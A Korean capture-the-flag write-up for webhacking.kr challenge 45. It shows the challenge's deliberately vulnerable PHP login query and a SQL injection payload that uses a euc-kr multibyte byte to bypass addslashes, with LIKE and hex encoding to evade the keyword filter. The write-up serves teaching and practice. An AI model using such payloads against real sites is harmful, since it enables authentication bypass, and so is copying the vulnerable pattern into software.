 ```yaml
---
title: "[webhacking.kr] 45번 문제 풀이[sql injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
toc: true
toc_sticky: true
toc_label: "45번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 45번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152755575-57026a88-2193-49dd-b9b5-5ff03a78f7a5.png)


  ```php
<?php
  if($_GET['id'] && $_GET['pw']){
    $db = dbconnect();
    $_GET['id'] = addslashes($_GET['id']);
    $_GET['pw'] = addslashes($_GET['pw']);
    $_GET['id'] = mb_convert_encoding($_GET['id'],'utf-8','euc-kr');
    if(preg_match("/admin|select|limit|pw|=|<|>/i",$_GET['id'])) exit();
    if(preg_match("/admin|select|limit|pw|=|<|>/i",$_GET['pw'])) exit();
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall45 where id='{$_GET['id']}' and pw=md5('{$_GET['pw']}')"));
    if($result){
      echo "hi {$result['id']}";
      if($result['id'] == "admin") solve(45);
    }
    else echo("Wrong");
  }
?>
  ```


# 문제 풀이
  다음의 sql 문을 인젝션 하여 admin이 나오도록 하면 됩니다.

  ```sql
select id from chall45 where id='{}' and pw=md5('%aa') or id like 0x61646d696e-- ')
  ```

  이번 문제는 addslashes() 함수와 mb_convert_encoding 함수가 같이 쓰이면서 multibyte encoding을 통해서 addslashes함수를 우회할 수 있습니다.

  mb_convert_encoding이 'id'에 쓰였기 때문에 공격지점은 id로 하고, 다음과 같이 injection을 시킬 페이로드 초안을 작성합니다.

  ```sql
  id = %aa' or id='admin'#
  ```

  이제 위의 초안에서 필터링 되는 문자열들을 고려하여 우회하여 줍니다.

  - ```=``` : like 사용으로 우회
  - ```admin``` : 0x61646d696e 로 우회
  
  따라서 다음과 같이 변형시켜서 injection을 시도합니다.

  ```sql
  %aa' or id like 0x61646d696e#
  ```

  위의 값을 인코딩하여 입력하면 다음과 같이 문제가 풀립니다.

  ![image](https://user-images.githubusercontent.com/33647663/152758302-7d3bd5f8-0408-4dfd-8794-a91be9d3321c.png)


 